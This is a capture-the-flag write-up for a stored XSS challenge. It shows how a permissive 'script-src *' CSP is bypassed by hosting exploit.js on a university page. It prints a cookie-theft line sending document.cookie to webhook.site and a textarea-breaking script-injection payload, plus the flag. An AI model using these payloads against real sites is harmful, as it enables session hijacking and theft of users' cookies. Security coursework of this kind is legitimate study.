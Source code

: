 # Challenge `Go on and censor my posts` Writeup

- Vulnerability: 
  - XSS attack
- Where:
  - Blogpost creation content
- Impact:
  - allows to steal remote user's cookie

## Analyzing the server

This challenges consists in grabbing the admins' cookies.
By trying the exploits found in previous challenges this error pops up: `Either the 'unsafe-inline' keyword, a hash, or a nonce is required to enable inline execution`. 
This means that a CSP policy is set to prevent any inline scripts but it also says that `Content Security Policy directive: "script-src *"` which indicates that its possible to 
load scripts from any source.

## Exploit

Since we are able to load scripts, we can create a JavaScript file and host it somewhere so that it can later be loaded to perform the attack.
However, it couldn't really be hosted anywhere.
The first try was to copy the last challenge payload to a pastebin link  (https://pastebin.com/)
but this resulted in a `Cross-Origin Read Blocking (CORB)` warning meaning that the script had to be hosted in the same origin as the server running the website.
Since this origin is probably Técnico  it's possible to host the file in the Técnico personal page (https://web.tecnico.ulisboa.pt).
To create the file just SSH to sigma and create a `exploit.js` file in the `/web` directory.
This file contains the same script as before `location='https://webhook.site/your-unique-id/'+document.cookie;`.
The payload is then:
`</textarea><script src=https://web.tecnico.ulisboa.pt/ist195562/exploit.js></script>` which reveals the flag `SSof{R3m0t3_Scripts_are_allowed_with_this_CSP}`.


## Implementation

No script needed.